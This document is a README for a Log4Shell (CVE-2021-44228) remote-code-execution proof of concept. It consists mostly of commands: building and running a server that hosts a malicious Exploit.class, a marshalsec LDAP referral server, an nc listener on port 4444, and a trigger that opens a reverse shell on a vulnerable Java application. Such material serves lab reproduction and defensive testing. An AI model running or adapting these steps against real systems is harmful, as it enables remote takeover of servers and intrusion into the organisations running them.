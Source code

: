 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

### 1. Using Docker

Build project.

```
./build.sh
# Runs the following commands:
#   cd CVE-2021-44228-Apache-Log4j-Rce/
#   javac Exploit.java
#   mvn clean package
#   docker build -t server . # Build python server docker image
#   cd ../marshalsec/
#   docker build -t japp . # Build ldap server docker image
#   cd ..
```

Run httpserver.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
./run.sh
# Runs the following command:
#   docker run --rm -it --name server -p 8888:8888 server
```

Run vulnerable jndi LDAP server.

```
cd marshalsec/
./run.sh
# Runs the following command
#   docker run --rm -it --name japp -p 1389:1389 japp
```

Create listener on port 4444.

```
nc -nlvp 4444
```

Run payload to execute reverse shell connection to our listener.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

You will now be able to execute shell commands.

### 2. Running everything locally

Compile exploit code and run python web server.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
javac Exploit.java

python -m SimpleHTTPServer 8888   # Python2
python3 -m http.server 8888       # Python3

# Make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

Build and run the vulnerable jndi LDAP server.

```
cd marshalsec/
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Build and run the activation code (simulate an log4j attack on a vulnerable java web server).

```
cd CVE-2021-44228-Apache-Log4j-Rce/
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```